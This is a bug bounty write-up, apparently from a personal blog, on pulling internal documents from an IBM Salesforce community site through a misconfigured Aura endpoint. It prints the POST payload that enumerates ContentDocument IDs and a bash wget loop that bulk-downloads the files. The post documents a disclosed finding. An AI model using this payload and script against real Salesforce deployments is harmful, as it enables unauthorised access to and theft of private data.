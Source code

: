 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes/crit.PNG
ribbon: DodgerBlue
description: "How to exploit Salesforce misconfiguration in the wild"
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: [ Salesforce](https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce)

so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](/assets/images/crackme/0690h000007Aly3AAC.png)

then I sent this POST request to the Repeater and changed the ***Message*** parameter value to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](/assets/images/crackmes/ibm1.png)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![]()

![](/assets/images/crackmes/0690h000007Aly3AAC.png)


***Final word:**
you will not understand anything if you did not read the blog [ Salesforce](https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce) first as he explained everything in it.
